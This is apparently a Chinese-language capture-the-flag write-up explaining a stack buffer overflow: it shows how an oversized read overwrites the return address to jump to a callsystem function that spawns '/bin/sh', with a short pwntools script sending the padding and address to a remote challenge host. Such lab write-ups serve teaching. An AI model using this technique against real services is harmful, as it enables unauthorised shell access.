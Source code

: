 ![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159328.png)

很显然这个vulnerable_function是一个可疑函数，点进去看看

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159329.png)

首先定义一个长度为0x80的字符串，但第二句0x200uLL说明可以最多向其中输入0x200的内容。可以使用shellcode

进入buf看下栈结构：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159330.png)

注意看上面的解释：r和s分别代表返回地址和保存的寄存器，栈长度0x80,寄存器长度0x8。

<img src="https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159326.png" style="zoom:50%;" />

也就是说，只要把Local variable和caller's ebp全部用垃圾数据填满，就可以直接覆写return address。

找敏感函数的返回地址：callsystem

```c
int callsystem()
{
  return system("/bin/sh");

```

相当于直接打开shell。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159331.png)

函数地址：0x400596（一定要注意，返回的地址需要是函数的地址，这样才能保证该函数被调用）

shellcode:

```python
from pwn import *
p = remote('61.147.171.105',56876)
address = p64(0x400596)
p.send(b'a'*0x88+address) 
p.interactive()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159332.png)

用不了vim的原因是远程控制的主机并没有装vim。。。

一些基本指令：

from pwn import * #加载pwntools库

p = remote('61.147.171.105',56876) 根据端口/ip连接

interactive()#允许交互

recv(numb=字节大小, timeout=default)# 接收指定字节数

recvall() # 一直接收直到达到文件EOF
